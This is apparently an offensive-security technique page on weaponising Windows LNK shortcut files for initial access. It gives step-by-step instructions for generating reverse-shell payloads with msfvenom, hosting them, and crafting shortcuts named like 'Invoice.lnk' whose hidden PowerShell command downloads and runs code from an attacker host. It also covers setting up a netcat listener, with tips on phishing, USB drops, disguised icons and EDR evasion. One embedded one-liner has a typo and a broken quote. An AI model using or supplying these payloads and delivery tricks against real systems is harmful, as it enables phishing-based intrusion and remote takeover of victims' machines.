 # LNK (Shortcut) Files

**Type:** Malicious Documents & File-Based Delivery
**Platform:** Windows
**Prerequisites:**  user must click on the malicious shortcut file


---
## Overview

  This technique leverages Windows `.lnk` files (shortcuts) to execute malicious commands or payloads when a user clicks on the shortcut. It’s especially effective in phishing or USB drop scenarios where the file appears benign.


---
## How It Works

**LNK Files** Also known as a "link" file, the Windows Shortcut File (LNK) is a Windows proprietary format specification that allows users to create a graphical **pointer** to a file,
command, network share, etc...
LNK files are usually created automatically in the "recent files" or "quick access"
section of the Windows Explorer. They can also be created on demand by right
clicking a file and selecting "create shortcut"

As mentioned above, shortcut files are really just pointers to another resource. This
makes it very easy to use LNK files to :
- run specific cmd.exe commands
- run a PowerShell ‘one-liner’
- execute hidden files in a directory.

Another attribute of shortcut files is that even with “Hide Extensions for Known File
Types” disabled, shortcut files never show the “.lnk” extension. This can ease phishing
attacks as the shortcut and the actual file are almost identical in appearance.

 The malicious logic is hidden in the shortcut’s **target** path or embedded scripts. 
 Execution can occur without any visual clue to the user.

<img src="shortcut.png" >


---
## Prerequisites

- Target OS: Windows
- User Interaction: Yes (user must click the shortcut)
- Network Connectivity: Often required (for downloading payloads)
- Dependencies or Tools:
    - Windows machine (to craft the malicious shortcut file)
   

---
## Steps to Implement

1. **Prepare Your Payload**
i tend to use a simple `.ps1` powershell reverse-shell payload. you can use **metasploit**  for this step. 

2. **Host the payload** 
use :
```shell
python3 -m http.server 80
```
3. **Create the Malicious Shortcut**
 you can craft the shortcut manually with the GUI :

1 - Create a new shortcut by Right click then click **New** > **Shortcut** 
<img src="create-shortcut-s1.png" >

2 - then edit the properties of the shortcut and Customize Appearance: 
<img src="create-shortcut-s2.png" >

<img src="create-shortcut-s3.png" >

<img src="create-shortcut-s4.png" >

<img src="create-shortcut-s5.png" >

set "Run:" to **Minimized**, for stealth .
<img src="create-shortcut-s6.png" >

change the icon.
<img src="create-shortcut-s7.png" >

embed the command you want to execute ( stager ) in the **Target** field.
<img src="create-shortcut-s8.png" >
then click **apply** and **ok**


or create the shortcut using a powershell script :
```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:USERPROFILE\Desktop\Invoice.lnk")
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/bare.ps1')"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,3"
$Shortcut.Save()
```


4. **Deliver to the Target**
  - Phishing email
  - USB drop
  - Shared folder / drive
  
5.  **Set Up Listener**
- make sure the listener is up and running ( listening for incoming connection )
 ```shell
 nc -nlvp 9001
```

6. **Execution**
- When the user clicks the `.lnk` file, the command runs silently and retrieves our payload and executes it, resulting in a reverse shell being established.

<img src="pwnd.png" >

---

## Payload/Code Snippets

- **generate a payload using `powervoodoo`** 
```shell
# Example using powervoodoo to generate a reverse shell payload 
./powervoodoo.sh lhost=<host> lport=<port> os=windows
```

- **generate a payload using `msfvenom`** 
```shell
msfvenom -p windows/powershell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh -o shell.ps1

```

- **One liner payload to embed within the shortcut file**
```shell
C:\Windows\System32\cmd.exe /c powershel -c "Start-Process notepad.exe ; powershell -w 1 -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://127.0.0.1:8000/payload.ps1)\" "
```

- **create a malicious shortcut file using powershell** 
```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:USERPROFILE\Desktop\Invoice.lnk")
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/bare.ps1')"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,3"
$Shortcut.Save()
```


---
## Tips

- Use misleading filenames like `Invoice.lnk` or `HR_Policy_Update.lnk`.
- Customize icons to mimic trusted applications (e.g., Word, PDF, Excel).
- Combine with an autorun or USB drop for physical delivery.
- Some EDRs detect `.lnk` anomalies, test carefully in a lab before deployment.


---
## References

-  [Using LNK Files for Initial Infection](https://www.cybereason.com/blog/threat-analysis-taking-shortcuts-using-lnk-files-for-initial-infection-and-persistence)
- [john hammond YOUTUBE](https://youtu.be/RLtMxN5q_cQ?si=xnKBzQ7-5-79V2mq)


---

***Author*** : **o-sec**
